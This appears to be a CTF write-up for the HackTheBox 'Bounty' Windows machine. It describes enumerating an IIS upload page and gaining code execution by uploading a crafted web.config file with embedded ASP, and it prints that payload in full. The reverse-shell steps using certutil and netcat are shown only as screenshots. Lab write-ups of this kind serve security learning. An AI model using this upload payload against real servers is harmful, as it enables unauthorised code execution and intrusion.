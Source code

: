 ```yaml
---
title: HackTheBox_Bounty w/o Metasploit
date: 2024-07-28 01:22:00 -500
categories: [hackthebox,CTF,writeups]
tags: [ctf,hackthebox,writeup,windows,easy]
---
```



## HTB - Bounty

## Enumeration

### Nmap Scan

![Image](/assets/img/Bounty/Untitled.png)

### Homepage

![Image](/assets/img/Bounty/Untitled_1.png)

### Dirbusting Results

![Image](/assets/img/Bounty/Untitled_2.png)

### Transfer.aspx

![Image](/assets/img/Bounty/Untitled_3.png)

## Vulnerabilities

### Transfer.aspx Directory

Asp through webconfig [https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/](https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/)

## Exploitation

### Upload Extensions

Let's see what extensions we can upload to the server

First, let's send the upload action to a repeater

![Image](/assets/img/Bounty/Untitled_4.png)

### Creating Payload

Now let's create our payload

![Image](/assets/img/Bounty/Untitled_5.png)

Let this be our `extensions.txt` file

![Image](/assets/img/Bounty/Untitled_6.png)

We send the request to the intruder and then add our payload

![Image](/assets/img/Bounty/Untitled_7.png)

### Defining Payload

Here we define the payload

![Image](/assets/img/Bounty/Untitled_8.png)

OK, so with this we can tell that the server accepts uploads with these extensions

![Image](/assets/img/Bounty/Untitled_9.png)

### Using Config File

[https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/](https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/)

This config file allows us to upload ASP files, which could give us a shell, so let's use this

```xml

`<?xml` `version="1.0"` `encoding="UTF-8"?>`

`<configuration>`

`<system.webServer>`

`<handlers` `accessPolicy="Read, Script, Write">`

`<add` `name="web_config"` `path="*.config"` `verb="*"` `modules="IsapiModule"` `scriptProcessor="%windir%\system32\inetsrv\asp.dll"` `resourceType="Unspecified"` `requireAccess="Write"` `preCondition="bitness64"` `/>`

`</handlers>`

`<security>`

`<requestFiltering>`

`<fileExtensions>`

`<remove` `fileExtension=".config"` `/>`

`</fileExtensions>`

`<hiddenSegments>`

`<remove` `segment="web.config"` `/>`

`</hiddenSegments>`

`</requestFiltering>`

`</security>`

`</system.webServer>`

`</configuration>`

`<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!`

`<%`

`Response.write("-"&"->")`

`' it is running the ASP code if you can see 3 by opening the web.config file!`

`Response.write(1+2)`

`Response.write("<!-"&"-")`

`%>`

- `->`

```

### Uploading Shell

Ignore this empty weewee

Now let's upload this file on the server

![Image](/assets/img/Bounty/Untitled_10.png)

![Image](/assets/img/Bounty/Untitled_11.png)

It's displaying 3, which means our web.config file is working properly

### Getting a Shell

Now we can go ahead and try getting a shell

![Image](/assets/img/Bounty/Untitled_12.png)

Alright, we have made our payload, now time to get it running on the victim's box

### Setting Up

Setting up our Python server and netcat

![Image](/assets/img/Bounty/Untitled_13.png)

### Using Certutil

We will now use certutil to get the exe payload

![Image](/assets/img/Bounty/Untitled_14.png)

### Uploading and Refreshing

And on uploading, then refreshing the uploadedfiles/webconfig dir

We have our shell

![Image](/assets/img/Bounty/Untitled_15.png)

Note: Shell kept bugging out, will update this in the future

